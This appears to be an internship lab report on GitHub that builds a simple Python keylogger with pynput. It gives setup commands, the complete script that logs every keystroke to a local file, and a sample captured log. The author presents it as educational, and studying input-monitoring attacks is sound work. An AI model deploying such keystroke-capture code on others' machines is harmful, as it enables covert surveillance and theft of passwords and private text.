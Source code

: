 # Task 8: Keylogger Creation for Educational Use
## Internship at : Broskieshub.com

## Objective

I’m building a simple keylogger in Python using the `pynput` library to demonstrate how attackers might capture keystrokes for educational purposes only. This helps me understand input monitoring techniques and highlights the importance of security practices.

## Dependencies

- Python 3.13.7
- I install `pynput` in a virtual environment to avoid Kali Linux’s externally managed environment error.

### Setup Virtual Environment

1. I install `python3-venv`:
    
    ```
    sudo apt install python3-venv
    ```
    
2. I create and activate a virtual environment:
    
    ```
    python3 -m venv keylogger_env
    source keylogger_env/bin/activate
    ```
    
3. I install `pynput` inside the virtual environment:
    
    ```
    pip install pynput
    ```
    

**Screenshot Points (SS):**

- After I create and activate the virtual environment (showing terminal output).

![](Screenshots/01_ven.png)

- After I install `pynput` (showing pip output).

![](/Screenshots/02_pynput.png)

## Source Code

I save the following as `keylogger.py`:

```python
from pynput.keyboard import Key, Listener
import logging

# Set up logging to file
logging.basicConfig(filename='keylog.txt', level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

def on_release(key):
    if key == Key.esc:  # Stop listener on ESC key
        return False

# Start listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage Demo

1. I ensure the virtual environment is activated:
    
    ```
    source ~/Desktop/Task8/keylogger_env/bin/activate
    ```
    
2. I run the script:
    
    ```
    python keylogger.py
    ```
    
3. I type sample input.
4. I press ESC to stop.
5. I view the logs in `keylog.txt`.

**Screenshot Points (SS):**

- Terminal showing execution and typing in progress.

![](Screenshots/03_script_run.png)

## Captured Logs 
`These also can be found at [Logs](Evidences/keylog.txt)`

```
2025-09-28 15:53:20,828: Key.shift_r  
2025-09-28 15:53:21,350: 'H'  
2025-09-28 15:53:21,623: 'e'  
2025-09-28 15:53:21,901: 'l'  
2025-09-28 15:53:22,154: 'l'  
2025-09-28 15:53:22,386: 'o'  
2025-09-28 15:53:22,710: Key.space  
2025-09-28 15:53:24,271: Key.shift_r  
2025-09-28 15:53:24,581: 'C'  
2025-09-28 15:53:24,939: 'a'  
2025-09-28 15:53:25,157: 'n'  
2025-09-28 15:53:25,460: Key.space  
2025-09-28 15:53:26,143: 'y'  
2025-09-28 15:53:26,421: 'o'  
2025-09-28 15:53:26,704: 'u'  
2025-09-28 15:53:27,078: Key.space  
2025-09-28 15:53:27,402: 's'  
2025-09-28 15:53:28,579: 'e'  
2025-09-28 15:53:28,809: 'e'  
2025-09-28 15:53:29,297: Key.space  
2025-09-28 15:53:30,782: 'm'  
2025-09-28 15:53:31,019: 'e'  
2025-09-28 15:53:31,313: Key.shift_r  
2025-09-28 15:53:31,693: '?'  
2025-09-28 15:53:32,290: Key.space  
2025-09-28 15:53:32,437: Key.shift_r  
2025-09-28 15:53:35,218: ':'  
2025-09-28 15:53:35,948: ')'  
2025-09-28 15:53:38,105: Key.esc
```

## Notes

- I use this ethically for the demo and deactivated the virtual environment after use:
    
    ```
    deactivate
    ```
    
- This is for learning—I do not deploy it on unauthorized systems.

---
End of report.